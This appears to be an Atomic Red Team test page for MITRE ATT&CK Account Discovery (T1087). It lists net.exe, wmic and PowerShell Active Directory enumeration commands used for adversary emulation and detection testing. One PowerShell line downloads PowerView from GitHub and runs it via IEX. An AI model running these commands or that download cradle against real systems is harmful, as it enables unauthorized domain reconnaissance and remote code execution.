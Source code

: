 ﻿## Account Discovery

MITRE ATT&CK Technique: [T1087](https://attack.mitre.org/wiki/Technique/T1087)

## Test Script

[Discovery](https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/Discovery.bat)

### Net.exe

Domain Group Enumeration:

    net group "domain admins" /domain

Domain User Enumeration:

    net user <username> /domain

Local Group Enumeration:

    net localgroup "administrators"

Local User Enumeration:

    net user

Input:

    net use

Input:

    net share

Input:

    net view

Input:

    net accounts

## wmic.exe

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic useraccount list

Input:

    wmic startup list brief

Input:

    wmic share list

Input:

    wmic service get name,displayname,pathname,startmode

Input:

    wmic process list brief

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"
    
### PowerShell

(https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Input:

    PS> Import-Module PowerView.ps1
        #Or load directly from the raw github content:
    PS> (New-Object System.Net.Webclient).downloadstring(“https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1”) | IEX

    PS> Get-NetGroup *Admins*
    PS> Get-NetGroup *Citrix*
    PS> Get-NetComputer *Win7* | Select samaccountname
    PS> Get-NetUser *Admins*
    PS> Get-NetUser | Where {$_.samaccountname –eq “<username>”}
    PS> Get-NetUser -filter samaccountname=<username>
    
Input:

    #Most commonly found on Domain Controllers or where the ad tools 
    PS> Import-Module ActiveDirectory 

    #Find users who’s password never expires – export to csv 
    PS> Get-ADuser -filter * -properties passwordlastset, enabled, passwordneverexpires, Samaccountname | where-object {$_.passwordneverexpires - eq $true -and $_.enabled -eq $true} | Export-csv -path passwords.csv 

    #Find only enabled accounts – export to csv 
    PS> get-aduser -filter * -properties enabled, Samaccountname |where-object {$_.enabled -eq $true} | Export-csv -path enabled-accounts.csv

    #Obtain the default password policy 
    PS> get-addefaultdomainpasswordpolicy 
    PS> get-addomaincontroller
